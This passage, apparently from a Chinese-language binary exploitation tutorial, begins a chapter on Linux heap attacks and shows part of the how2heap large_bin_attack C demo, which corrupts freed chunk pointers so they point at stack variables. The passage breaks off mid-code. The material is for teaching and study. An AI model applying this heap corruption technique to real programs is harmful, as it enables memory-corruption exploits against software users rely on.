 # 3.1.9 Linux 堆利用（四）

- [how2heap](#how2heap)
  - [large_bin_attack](#large_bin_attack)
- [house_of_rabbit](#house_of_rabbit)
- [house_of_roman](#house_of_roman)
- [参考资料](#参考资料)

[下载文件](../src/Others/3.1.6_heap_exploit)

## how2heap

### large_bin_attack

```c
#include<stdio.h>
#include<stdlib.h>

int main() {
    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr, "The targets we want to rewrite on stack:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x100);
    fprintf(stderr, "Now, we allocate the first chunk: %p\n", p1 - 2);
    malloc(0x10);

    unsigned long *p2 = malloc(0x400);
    fprintf(stderr, "Then, we allocate the second chunk(large chunk): %p\n", p2 - 2);
    malloc(0x10);

    unsigned long *p3 = malloc(0x400);
    fprintf(stderr, "Finally, we allocate the third chunk(large chunk): %p\n\n", p3 - 2);
    malloc(0x10);

    // deal with tcache - libc-2.26
    // int *a[10], *b[10], i;
    // for (i = 0; i < 7; i++) {
    //     a[i] = malloc(0x100);
    //     b[i] = malloc(0x400);
    // }
    // for (i = 0; i < 7; i++) {
    //     free(a[i]);
    //     free(b[i]);
    // }

    free(p1);
    free(p2);
    fprintf(stderr, "Now, We free the first and the second chunks now and they will be inserted in the unsorted bin\n");

    malloc(0x30);
    fprintf(stderr, "Then, we allocate a chunk and the freed second chunk will be moved into large bin freelist\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);
```